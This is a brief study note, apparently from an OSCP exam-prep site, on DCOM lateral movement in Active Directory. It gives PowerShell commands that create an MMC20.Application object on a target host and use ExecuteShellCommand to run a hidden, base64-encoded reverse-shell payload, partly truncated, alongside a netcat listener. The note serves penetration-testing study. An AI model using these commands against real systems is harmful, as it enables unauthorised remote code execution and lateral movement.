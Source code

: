 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/6-dcom/"}
---
```


----------
- Distributed Component Object Model
- Originally a system for creating software components that interact with each other
- Now extended for interaction between computers over a network
- Performed over RPC on TCP port 135
- Requires local administrator access
- Collection of DCOM lateral movement techniques: https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### DCOM MMC Reverse Shell:
1. Generate encoded Powershell payload using python script.
2. Start elevated powershell.
3. Initiate MMC 2.0 application and set target ip:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target-ip>"))
```
2. Start netcat listener.
3. Execute the application and specify process:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
